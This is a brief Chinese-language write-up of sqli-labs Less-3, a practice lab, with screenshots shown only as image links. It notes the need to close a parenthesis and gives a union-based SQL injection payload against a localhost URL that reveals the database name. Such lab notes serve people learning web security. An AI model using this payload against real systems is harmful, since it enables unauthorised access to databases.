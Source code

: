 less3报错提示有括号（）需要闭合

![](images/199E74A6B00D4AFDB9475CB58CECE05Aclipboard.png)

构造payload:

http://127.0.0.1/sql-labs/Less-3/?id=-1') union select 1,database(),3--+

![](images/15C43AD66F3946C4945D05BD6F63204Cclipboard.png)



源代码：

![](images/14CA309A6D1146C69906A0B412DB17C3clipboard.png)

